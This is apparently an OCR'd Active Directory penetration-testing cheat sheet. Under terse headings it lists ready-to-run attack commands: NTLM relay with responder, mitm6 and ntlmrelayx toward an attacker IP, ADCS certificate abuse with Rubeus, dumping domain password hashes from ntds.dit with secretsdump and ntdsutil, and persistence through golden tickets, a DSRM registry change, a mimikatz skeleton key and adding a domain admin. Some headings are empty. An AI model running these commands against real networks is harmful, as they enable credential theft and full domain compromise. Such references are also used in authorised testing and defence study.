 ### responder -I eth0 # disable smb & http

- ntlmrelayx.py -tf targets.txt 

### mitm6 -i eth0 -d <domain>

- ntlmrelayx.py -6 -wh <attacker_ip> -l /tmp -socks -debug
- ntlmrelayx.py -6 -wh <attacker_ip> -t smb://<target> -l /tmp -socks -debug
- ntlmrelayx.py -t ldaps://<dc_ip> -wh <attacker_ip> --delegate-access

	- getST.py -spn cifs/<target> <domain>/<netbios_name>\$ -impersonate <user>

### adcs

- ntlmrelayx.py -t http://<dc_ip>/certsrv/certfnsh.asp -debug -smb2support --adcs --template DomainController

	- Rubeus.exe asktgt /user:<user> /certificate:<base64-certificate> /ptt

## Domain admin

### dump ntds.dit

- crackmapexec smb 127.0.0.1 -u <user> -p <password> -d <domain> --ntds
- secretsdump.py '<domain>/<user>:<pass>'@<ip>
- ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q

	- secretsdump.py  -ntds ntds_file.dit -system SYSTEM_FILE -hashes lmhash:nthash LOCAL -outputfile ntlm-extract

- windows/gather/credentials/domain_hashdump

## Persistance

### net group "domain admins" myuser /add /domain

### Golden ticket

- ticketer.py -nthash <nthash> -domain-sid <domain_sid> -domain <domain> <user>

### Silver Ticket

### DSRM

- PowerShell New-ItemProperty “HKLM:\System\CurrentControlSet\Control\Lsa\” -Name “DsrmAdminLogonBehavior” -Value 2 -PropertyType DWORD

### Skeleton Key

- mimikatz "privilege::debug" "misc::skeleton" "exit"

### Custom SSP

